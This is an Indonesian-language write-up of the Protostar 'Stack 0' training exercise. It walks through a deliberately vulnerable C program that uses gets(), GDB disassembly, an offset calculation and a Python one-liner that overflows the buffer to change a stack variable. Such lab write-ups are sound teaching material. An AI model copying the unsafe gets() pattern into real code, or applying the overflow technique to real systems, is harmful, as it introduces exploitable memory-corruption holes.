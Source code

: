 # Stack 0
## Tentang
Level ini memperkenalkan konsep bahwa memori dapat diakses di luar wilayah yang dialokasikan, bagaimana variabel stack ditata, dan bahwa memodifikasi di luar memori yang dialokasikan dapat mengubah eksekusi program.

## Source Code
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```

## Target Exploits
Pada level ini kita ditargetkan untuk mengubah variabel **modified** menjadi tidak sama dengan 0 untuk mencetak string "you have changed the 'modified' variable". Pada program diatas, input kita disimpan pada kedalam buffer menggunakan fungsi gets(). Karena gets() bukanlah fungsi yang aman, kita dapat menggunakannya untuk menimpa memori dimana variabel **modified** disimpan.

## Kerentanan Program
Seperti yang dikatakan sebelumnya **gets()** adalah fungsi yang tidak aman. Jika kita melihat pada man pages gets() dengan mengetikkan *man gets* pada bagian BUGS disebutkan bahwa gets() rentan karena tidak mungkin untuk mengetahui berapa banyak karakter yang akan diterima oleh gets(). fungsi ini akan terus menyimpan karakter setelah akhir buffer.

## Lets Dive Deeper
**[!] Disclaimer** saya disini memindahkannya dari Protostar machine kedalam local maschine saya, agar lebih mudah untuk menganalisis programnya. Disini saya juga menggunakan ekstensi dari GDB yaitu gef. Jadi alamat pada machine anda mungkin berbeda

Pertama tama kita coba liat bagaimana kodenya terlihat di assembly menggunakan command berikut
> **gdb -q stack0** </br>
> **disass main**
```
   0x080483f4 <+0>:	push   ebp
   0x080483f5 <+1>:	mov    ebp,esp
   0x080483f7 <+3>:	and    esp,0xfffffff0
   0x080483fa <+6>:	sub    esp,0x60
   0x080483fd <+9>:	mov    DWORD PTR [esp+0x5c],0x0
   0x08048405 <+17>:	lea    eax,[esp+0x1c]
   0x08048409 <+21>:	mov    DWORD PTR [esp],eax
   0x0804840c <+24>:	call   0x804830c <gets@plt>
   0x08048411 <+29>:	mov    eax,DWORD PTR [esp+0x5c]
   0x08048415 <+33>:	test   eax,eax
   0x08048417 <+35>:	je     0x8048427 <main+51>
   0x08048419 <+37>:	mov    DWORD PTR [esp],0x8048500
   0x08048420 <+44>:	call   0x804832c <puts@plt>
   0x08048425 <+49>:	jmp    0x8048433 <main+63>
   0x08048427 <+51>:	mov    DWORD PTR [esp],0x8048529
   0x0804842e <+58>:	call   0x804832c <puts@plt>
   0x08048433 <+63>:	leave
   0x08048434 <+64>:	ret

```

Kita dapat melihat pada alamat **0x08048415** terdapat fungsi yang membandingkan nilai dari eax dengan eax. Membingungkan bukan? </br>
Namun jika kita melihat sedikit keatas, kita dapat melihat pada alamat **0x08048411** bahwa nilai dari alamat **esp+0x5c** dimasukkan kedalam eax. Coba kita lihat di dalam gdb apa nilai dari alamat **esp+0x5c** tersebut dengan meletakkan breakpoint pada **0x08048415**

> b *0x08048415 </br>
> run </br>
> AAAA </br>
> x/wx $esp+0x5c

```
gef➤  x/wx $esp+0x5c
0xffffcdec:	0x00000000
```

Terlihat bahwa nilai dari alamat itu adalah 0. Kita diperintahkan untuk mengubah nilainya agar != 0 bukan? </br>
**Bagaimana Caranya??** </br>
Coba kita lihat kembali pada functions main, apa yang ia lakukan. Terdapat pada alamat **0x08048405** dimana nilai dari **esp+0x1c** dimasukkan kedalam eax juga. Apakah anda mengerti apa yang ia coba lakukan? :v. Coba kita lihat apa isi alamat itu

> gef➤  x/wx $esp+0x1c

```
gef➤  x/wx $esp+0x1c
0xffffcdac:	0x41414141
```

Jika kita melihat pada kedua alamat tersebut **0xffffcdec** dan **0xffffcdac**, bukankah mereka terlihat tidak begitu jauh?. Hanya dari *ec* ke *ac*. Mari coba kita hitung seberapa banyak karakter yang diperlukan untuk menimpa alamat variabel modified itu

> p/d 0xffffcdec - 0xffffcdac

```
gef➤  p/d 0xffffcdec - 0xffffcdac
$1 = 64
```

Terlihat bahwa untuk mencapai alamat **0xffffcdec** dibutuhkan 64 karakter

## Mari Kita Cobaa
Kita dapat menggunakan python untuk menghasilkan 64 karakter tersebut
```
python -c "print ('A'*64)" | ./stack0
Try again?
```

Mengapa tidak berhasil mencetak string **you have changed the 'modified' variable**?? </br>
Itu karena modified variabel belum terganti, masih = 0. Kita bisa mencoba menambahkan satu karakter untuk menimpa variabel itu

```
python -c "print ('A'*64+'B')" | ./stack0
you have changed the 'modified' variable

```

Nah.. Sekarang coba kita lihat apa yang terjadi di GDB

```
b *0x08048415 
run 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAB
x/wx $esp+0x5c
0xffffcdec:	0x00000042
x/wx $esp+0x1c
0xffffcdac:	0x41414141
```

Dapat dilihat sekarang alamat modified variabel kita sudah terganti dengan 0x00000042, 0x42 adalah "**B**" dalam Hexadesimal


